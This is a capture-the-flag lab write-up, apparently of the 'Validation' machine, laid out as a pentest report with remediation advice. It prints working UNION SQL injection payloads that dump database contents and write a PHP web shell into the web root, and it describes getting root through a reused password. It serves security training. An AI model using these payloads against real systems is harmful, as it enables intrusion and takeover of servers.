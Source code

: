# Validation

___

**Key Findings:**
- Web application SQL injection vulnerability in ``country`` parameter
- File write capability through SQL injection UNION SELECT INTO OUTFILE
- MySQL credentials exposed in configuration files
- Root password reuse enabling direct privilege escalation
- Unrestricted file upload location accessible via web server

---

## Key Learning Objectives

✅ Network Port Scanning & Service Enumeration  
✅ Web Application Reconnaissance & Analysis  
✅ SQL Injection Detection & Exploitation  
✅ UNION-based SQL Injection Techniques  
✅ File Upload via SQL Injection  
✅ Web Shell Deployment & Command Execution  
✅ Configuration File Analysis  
✅ Password Reuse Exploitation  
✅ Direct Root Privilege Escalation

---

## 1. Reconnaissance & Enumeration

Initial reconnaissance was conducted using Nmap to identify open ports and running services on the target system.

```bash
sudo nmap -p- --open -n -Pn -vvv -oG ports 10.10.11.116
sudo nmap -p 22,80,4566,8080 -sCV -oN services 10.10.11.116
```

**Results:**
- Port 22/tcp: SSH service
- Port 80/tcp: Apache HTTP server
- Port 4566/tcp: HTTP service
- Port 8080/tcp: HTTP service

<figure style="text-align: center;">
    <img src="screenshots/validation-01.png">
</figure>

## 2. Web Application Assessment

The web application running on port 80 was examined through browser navigation, revealing a registration form with username and country fields.

<figure style="text-align: center;">
    <img src="screenshots/validation-02.png">
    <img src="screenshots/validation-03.png">
</figure>

## 3. Traffic Interception & Analysis

Request interception was configured using BurpSuite to analyze the registration form submission. The request was sent to Repeater and configured to process cookies in redirections for proper session handling.

<figure style="text-align: center;">
    <img src="screenshots/validation-05.png">
    <img src="screenshots/validation-06.png">
</figure>

## 4. SQL Injection Discovery

During parameter testing, the `country` field was identified as vulnerable to SQL injection attacks, demonstrating classic injection behavior with database errors.

Initial enumeration queries were run to gather information from the database, but this was only information that we already had access to via the web:

```sql
username=test&country=' UNION SELECT schema_name FROM information_schema.schemata;-- -
username=test&country=' UNION SELECT table_name FROM information_schema.tables WHERE table_schema='registration';-- -
username=test&country=' UNION SELECT column_name FROM information_schema.columns WHERE table_schema='registration' AND table_name='registration';-- -
username=test&country=' UNION SELECT GROUP_CONCAT(username,0x3a,userhash) FROM registration;-- -
```

## 5. File Upload Exploitation

After discovering the usage of PHP language through error messages and analysis of `whatweb` results, a malicious PHP file was uploaded through SQL injection using the INTO OUTFILE clause:

```sql
username=test&country=' UNION SELECT "<?php SYSTEM($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/shell.php"-- -
```

Although the injection returned an error message, the file upload was successful:

<figure style="text-align: center;">
    <img src="screenshots/validation-10.png">
</figure>

The uploaded web shell was confirmed functional through browser access:

<figure style="text-align: center;">
    <img src="screenshots/validation-11.png">
</figure>

## 6. Initial Access & Configuration Discovery

A reverse shell connection was established through the uploaded web shell, providing initial access to the target system. System reconnaissance revealed MySQL credentials stored in the web application configuration file `/var/www/html/config.php`.

<figure style="text-align: center;">
    <img src="screenshots/validation-12.png">
</figure>

## 7. Database Analysis

Connection to the MySQL database was attempted using the discovered credentials:

```bash
mysql -u uhc -p -h localhost registration
```

Database enumeration did not yield additional sensitive information or attack vectors.

## 8. Privilege Escalation

Password reuse was tested using the MySQL credentials discovered in the configuration file. The password was successfully used for direct root privilege escalation:

<figure style="text-align: center;">
    <img src="screenshots/validation-13.png">
</figure>

Root access was achieved through password reuse, demonstrating a critical security misconfiguration.

---

## Recommendations

### Immediate Actions

1. **SQL Injection Remediation**
   - Implement parameterized queries for all database interactions
   - Validate and sanitize all user input parameters
   - Apply principle of least privilege to database user accounts

2. **File Upload Security**
   - Disable file write capabilities for web application database users
   - Implement strict file upload validation and restrictions
   - Remove or secure existing uploaded malicious files

3. **Credential Security**
   - Change all default and exposed passwords immediately
   - Remove database credentials from web-accessible configuration files
   - Implement secure credential storage mechanisms

### Long-term Security Improvements

1. **Access Controls**
   - Eliminate password reuse across different service accounts
   - Implement proper user privilege separation
   - Regular review of system user permissions and access rights

2. **Application Security**
   - Deploy web application firewall (WAF) with SQL injection protection
   - Implement secure coding practices and input validation
   - Regular security code reviews and vulnerability assessments

3. **System Hardening**
   - Apply security patches and updates regularly
   - Configure proper file system permissions
   - Implement logging and monitoring for suspicious activities
   - Deploy intrusion detection and prevention systems